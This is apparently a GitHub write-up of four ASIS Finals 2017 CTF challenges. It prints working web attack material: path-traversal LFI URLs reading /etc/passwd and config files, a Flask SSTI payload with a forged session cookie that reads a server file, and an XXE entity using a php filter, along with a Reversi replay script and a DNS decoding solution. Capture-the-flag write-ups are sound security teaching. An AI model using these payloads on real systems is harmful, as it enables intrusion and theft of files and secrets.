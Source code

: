 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
--------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

<br>
Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>


<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br><br>

Task name :  GSA File Server  <br>
Category : Web <br>

Description :  GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:* <br>
<br>

tldr ; Exploit XXE and Use a directory listing vuln to read flag<br>

Challenge : <br>
First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
<br> the directory of the flag was found using the first vuln <br>
Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br><br>
Task name :   Chaoyang District   <br>
Category : PPC <br>
Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
tldr ; play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
Challenge : <br>
Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
from pwn import *

nc = remote("178.62.22.245",32145)
for z in range(0, 50):
    print "[-]", z
    seq = ['e3', 'c5', 'b5', 'g3', 'b3', 'a5', 'b7', 'a7', 'd7', 'e6', 'a4', 'a8', 'e1', 'b1', 'g8', 'c8', 'g5', 'h2',
           'g1', 'h6', 'g7', 'h7', 'd8', 'c1', 'e8', 'a2', 'h3', 'h5']
    for i in range(0, len(seq)):
        m = scan_net_boards(nc)
        print m
        nc.writeline(seq[i])

nc.interactive()
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br>
Task name :   Vivid Spying   <br>
Category : Networking <br>
Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
Challenge : <br> 
The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
